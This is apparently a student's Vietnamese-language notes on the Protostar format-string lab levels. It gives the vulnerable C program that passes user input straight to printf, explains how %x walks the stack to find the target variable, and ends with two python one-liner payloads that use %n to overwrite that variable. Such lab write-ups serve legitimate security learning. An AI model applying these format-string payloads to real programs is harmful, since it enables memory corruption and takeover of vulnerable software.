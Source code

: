 # Format one

Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

- Sử dụng objdump để tìm địa chỉ biến target
![Alt text](image.png)

- Ta có thể dùng `"%x` để pop ra địa chỉ của word tiếp theo bên trong stack. Mục tiêu là xem địa chỉ bộ nhớ nơi mà biến `target` đang được lưu trữ:
- Không hiểu sao `%x.` được còn `%x ` thì không:

![Alt text](image-1.png)

- Ta thấy dòng này bị lặp đi lặp lại liên tục. Đây là các biến mà ta đã nhập vào:
![Alt text](image-2.png)
Để ý thấy bên cạnh nó còn có `41414141` nhưng được lưu theo kiểu little endian.

./format1 "`python -c  "print 'AAAA'+'\x38\x96\x04\x08'+'BBBBBBBBBBBBB'+'%x '*127 + '%n'"`"


 python -c "print 'AAAA' +'\xe4\x96\x04\x08'+ '%x'*4 +'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA'+ '%n'" | /opt/protostar/bin/format2


 
